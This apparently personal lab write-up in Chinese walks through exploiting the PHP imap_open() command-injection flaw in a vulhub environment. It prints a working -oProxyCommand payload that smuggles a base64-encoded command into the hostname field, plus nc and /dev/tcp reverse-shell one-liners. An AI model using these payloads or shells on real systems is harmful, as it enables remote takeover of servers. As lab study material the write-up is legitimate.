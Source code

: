 # [vulhub]: PHP imap_open() RCE之利用

Author：badbird

Time：2021-5-5

---

### 0x01 利用前的一点点须知

vulhub搭建环境

访问IP:8080，bp抓包如下：

![image-20210505195603814](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210505195603814.png)

修改hostname变量值：

```bash
hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|bash}
```

解释一下：

payload利用的是imap_open()函数的性质，imap_open()函数定义如下：

```php
imap_open(string $mailbox,string $user,string $password,int $flags=0,int $retries=0,array $options=[])
```

payload中

x是随意的字符串，（测试过了不要也行）

+用来替换空格

-oProxyCommand实际上 -o 是ssh的参数，ProxyCommand是ssh的一个选项，测试这个选项如下：

![image-20210505223516641](C:\Users\King\AppData\Roaming\Typora\typora-user-images\image-20210505223516641.png)

可以看到，**虽然提示连接不成功但是该执行的命令还是执行了**。

ProxyCommand=后面跟的就是远程执行的命令如上图所示，在利用payload中，ProxyCommand=的是echo，%09为tab，后跟想执行命令的base64编码（要注意编码后如果有+或者=要URL编码一下）。

为什么是echo？

因为有base64编码，使用sh或bash执行命令的时候执行的是原字符串所以还需要base64解码。所以用到了echo [base64_code] |base64 -d来进行解码并输出到sh或bash执行（|sh 或 |bash的意思）**众所周知“|”能把前面执行结果的输出当作后面执行命令的输入。** 

总而言之，该漏洞利用的是imap_open()函数的第一个参数的过滤不严和处理参数的特性，关于该函数的第一个参数$mailbox: **imap_open()函数的第一个参数在php.ini文件中imap.enable_insecure_rsh参数为On的情况下，会开启IMAP preauthenticated mode，反正就是会调用rsh指令，然后rsh指令（应该）一般都是链接到ssh指令上的，ssh指令可以通过-o参数来执行一些指令。所以对第一个参数没有过滤好的话就会造成指令执行.**



### 0x02 反弹shell

这里又复习了一下几种linux反弹shell的方法：

1. 利用管道,需要目标装有nc且能执行

   mknod backpipe p

   或

   mkfifo backpipe（mknod没权限时用） 一句话为：

   ```shell
   /bin/bash -i 0</tmp/backpipe | nc IP PORT 1>/tmp/backpipe
   意思是开启一个交互式shell，且标准输入来自管道，执行后的结果通过nc连接重定向到攻击者也就是管道的另一端,且攻击者的标准输出重定向到管道
   ```

2. 利用/dev/tcp/IP/PORT

   ```shell
   /bin/bash -i >& /dev/tcp/IP/PORT 0>&1
   意思是开启一个交互式shell，且将标准输出和标准错误输出重定向到tcp连接，标准输入重定向到已经重定向到tcp连接的标准输出
   ```

关于linux的重定向还是需要用多了自然通透。

### 0x03 利用msf的攻击模块

exploits/linux/http/php_imap_open_rce 

利用失败，大概是因为攻击代码偏向于实际利用环境，而不适合vulhub的环境。猜想源于攻击代码中有判断301.
